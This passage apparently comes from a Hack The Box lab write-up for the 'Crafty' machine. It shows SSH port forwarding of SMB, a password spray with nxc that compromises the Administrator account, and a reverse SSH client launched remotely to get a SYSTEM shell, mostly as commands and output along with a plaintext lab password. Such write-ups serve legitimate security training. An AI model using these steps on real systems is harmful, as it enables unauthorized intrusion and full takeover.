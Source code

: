 ### Password spray with port forwarding

Port forward SMB port

```bash
ssh -J 127.0.0.1:443 crafty.svc_minecraft.crafty -L 445:127.0.0.1:445
```

Get a list of enabled users

```bash
PS C:\users\svc_minecraft\server> Get-LocalUser | ? Enabled | select Name

Name
----
Administrator
jacob
svc_minecraft
```

The password is valid for Administrator

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ nxc smb 127.0.0.1 -u loot/users.lst -p 's67u84zKq8IXw' --continue-on-success
SMB         127.0.0.1       445    CRAFTY           [*] Windows 10.0 Build 17763 x64 (name:CRAFTY) (domain:crafty) (signing:False) (SMBv1:False)
SMB         127.0.0.1       445    CRAFTY           [+] crafty\Administrator:s67u84zKq8IXw (Pwn3d!)
SMB         127.0.0.1       445    CRAFTY           [-] crafty\jacob:s67u84zKq8IXw STATUS_LOGON_FAILURE
SMB         127.0.0.1       445    CRAFTY           [-] crafty\svc_minecraft:s67u84zKq8IXw STATUS_LOGON_FAILURE
```

Start reverse ssh client (It will use `atexec` method since smb ports were not fully forwarded, so I will get a session as `nt authority\system`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ nxc smb 127.0.0.1 -u administrator -p 's67u84zKq8IXw' -x '\programdata\client.exe'
SMB         127.0.0.1       445    CRAFTY           [*] Windows 10.0 Build 17763 x64 (name:CRAFTY) (domain:crafty) (signing:False) (SMBv1:False)
SMB         127.0.0.1       445    CRAFTY           [+] crafty\administrator:s67u84zKq8IXw (Pwn3d!)
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ ssh 127.0.0.1 -p 443 ls -t
                            Targets
+------------------------------------------+--------------------------+
| IDs                                      | Version                  |
+------------------------------------------+--------------------------+
| 4392a41c8abbca593b0a509391ae4fdfd903dad6 | SSH-v2.4.1-windows_amd64 |
| 4560e76350de6d8c31090d0eabcd9a9da8c8c58b |                          |
| nt.authority.system.crafty               |                          |
| 10.129.166.189:49768                     |                          |
+------------------------------------------+--------------------------+
| 7d814d0da41a2113e06d752e903e6097fa73749c | SSH-v2.4.1-windows_amd64 |
| 4560e76350de6d8c31090d0eabcd9a9da8c8c58b |                          |
| crafty.svc_minecraft.crafty              |                          |
| 10.129.166.189:49728                     |                          |
+------------------------------------------+--------------------------+

┌──(bravosec㉿fsociety)-[~/htb/Crafty]
└─$ ssh -J 127.0.0.1:443 nt.authority.system.crafty
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
```